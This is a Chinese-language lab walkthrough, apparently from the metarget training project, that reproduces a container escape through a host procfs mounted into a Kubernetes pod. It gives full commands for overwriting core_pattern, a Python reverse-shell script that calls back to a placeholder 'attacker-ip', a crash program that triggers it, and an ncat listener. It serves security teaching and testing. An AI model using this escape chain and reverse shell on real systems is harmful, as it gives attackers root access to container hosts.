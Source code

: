 # 挂载宿主机Procfs系统导致容器逃逸

## 场景介绍

对于熟悉Linux和云计算的朋友来说，procfs绝对不是一个陌生的概念，不熟悉的朋友可以参考网络上相关文章或直接在Linux命令行下执行`man proc`查看文档。

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时（截止到本文成稿时，Docker默认情况下不会为容器开启User Namespace）。

一般来说，我们不会将宿主机的procfs挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs中的`/proc/sys/kernel/core_pattern`负责配置进程崩溃时内存转储数据的导出方式。从手册[1]中我们能获得关于内存转储的详细信息，关键信息如下：

> 从2.6.19内核版本开始，Linux支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

我们可以利用上述机制，在挂载了宿主机procfs的容器内实现逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install mount-host-procfs
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-host-procfs`的pod。

宿主机的procfs在容器内部的挂载路径是`/host-proc`。

## 漏洞复现

执行以下命令进入容器：

```
kubectl exec -it -n metarget mount-host-procfs /bin/bash
```

在容器中，首先拿到当前容器在宿主机上的绝对路径：

```
root@mount-host-procfs:/# cat /proc/mounts | grep docker
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SDXPXVSYNB3RPWJYHAD5RIIIMO:/var/lib/docker/overlay2/l/QJFV62VKQFBRS5T5ZW4SEMZQC6:/var/lib/docker/overlay2/l/SSCMLZUT23WUSPXAOVLGLRRP7W:/var/lib/docker/overlay2/l/IBTHKEVQBPDIYMRIVBSVOE2A6Y:/var/lib/docker/overlay2/l/YYE5TPGYGPOWDNU7KP3JEWWSQM,upperdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/diff,workdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/work 0 0```

从`workdir`可以得到基础路径，结合背景知识可知当前容器在宿主机上的`merged`目录绝对路径如下：

```
/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged
```

向容器内`/host-proc/sys/kernel/core_pattern`内写入以下内容：

```bash
echo -e "|/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern
```

然后在容器内创建一个反弹shell的`/tmp/.x.py`：

```bash
cat >/tmp/.x.py << EOF
#!/usr/bin/python
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    os.remove('/tmp/.x.py')
    s.close()
if __name__ == "__main__":
    main()
EOF

chmod +x /tmp/.x.py
```

最后，在容器内运行一个可以崩溃的程序即可，例如：

```c
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启shell监听：

```bash
ncat -lvnp 10000
```

接着在容器内执行上述编译好的崩溃程序，即可获得反弹shell。

## 参考文献

1. http://man7.org/linux/man-pages/man5/core.5.html